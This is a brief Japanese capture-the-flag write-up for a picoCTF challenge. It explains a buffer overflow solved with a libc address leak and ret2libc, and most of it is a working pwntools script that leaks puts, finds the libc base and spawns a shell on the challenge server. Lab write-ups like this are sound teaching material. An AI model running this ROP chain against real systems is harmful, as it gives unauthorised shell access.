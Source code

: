 ## tl;dr

BOF, libc leak, ret2libc

## 解法

入力からリターンアドレスまでの offset は 136 文字です。ここからは、いつものやつです。もう 5 回くらいこの解法を見たことがあります。

1. `puts(puts@GOT)` で `puts` の アドレスリーク
2. `puts` のアドレスから libc 内部の `puts` の offset を引いて libc base リーク
3. `main` に飛ばしてもう一度 ROP
4. libc 内の "/bin/sh" の文字列を利用して `system("/bin/sh")`

い　つ　も　の

実　家　の　よ　う　な　安　心　感

親　の　顔　よ　り　見　た　解　法

```python
from pwn import *
elf=context.binary=ELF("./vuln")
libc=ELF("./libc")
#p=process("./vuln")
p=remote("mercury.picoctf.net",42072)

payload=b"A"*136
#payload+=p64(0x0040052e) # ret
payload+=p64(0x00400913) # pop rdi
payload+=p64(elf.got['puts'])
payload+=p64(elf.plt['puts'])
payload+=p64(elf.symbols['main'])

p.sendline(payload)
p.recvline()
p.recvline()
addr=u64(p.recv(6).ljust(8,b"\x00"))
print(hex(addr))
libc_base=addr-libc.symbols['puts']
print(hex(libc_base))

payload=b"A"*136
payload+=p64(0x0040052e) # ret
payload+=p64(0x00400913) # pop rdi
payload+=p64(libc_base+next(libc.search(b"/bin/sh")))
payload+=p64(libc_base+libc.symbols['system'])
p.sendline(payload)
p.interactive()
```